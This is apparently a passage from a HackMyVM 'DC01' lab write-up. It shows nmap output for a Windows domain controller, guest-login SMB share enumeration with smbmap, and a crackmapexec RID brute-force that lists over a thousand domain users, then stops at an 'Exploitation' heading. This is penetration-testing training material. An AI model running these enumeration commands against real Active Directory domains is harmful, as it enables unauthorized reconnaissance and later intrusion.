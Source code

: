```bash
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-10-12T17:32:41
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:da:f6:15 (Oracle VirtualBox virtual NIC)
|_clock-skew: 9h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.94 seconds
```

The target runs Kerberos, LDAP, and SMB, we can deduce from this that the target is a Windows domain controller. We can see in the scan's result the domain i.e. `SOUPEDECODE.LOCAL` of the target and also the name of the domain controller `DC01`. We can add this information to our /etc/hosts file.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/DC01/Scans/Service]
└─$ echo "10.0.2.31\tSOUPEDECODE.LOCAL DC01.SOUPEDECODE.LOCAL" | sudo tee -a /etc/hosts
[sudo] password for pentester: 
10.0.2.31       SOUPEDECODE.LOCAL DC01.SOUPEDECODE.LOCAL
```

Now, let's enumerate the SMB service to see if it allows anonymous or guest logins.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC01/Scans/AD Enumeration]
└─$ smbmap -H SOUPEDECODE.LOCAL -u 'guest'
<SNIP>

[+] IP: 10.0.2.31:445   Name: SOUPEDECODE.LOCAL         Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        backup                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
        Users                                                   NO ACCESS
[*] Closed 1 connections   
```

The target allows guest logins. We can use this to enumerate users in the domain through RID brute-forcing.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/DC01/Scans/AD Enumeration]
└─$ crackmapexec smb SOUPEDECODE.LOCAL -u 'guest' -p '' --rid-brute > rid_bruteforce.txt

┌──(pentester㉿kali)-[~/…/HackMyVM/DC01/Scans/AD Enumeration]
└─$ cat rid_bruteforce.txt | grep SidTypeUser | cut -d '\' -f2 | cut -d ' ' -f1 > valid_users.txt

┌──(pentester㉿kali)-[~/…/HackMyVM/DC01/Scans/AD Enumeration]
└─$ wc -l valid_users.txt           
1069 valid_users.txt
```
## Exploitation
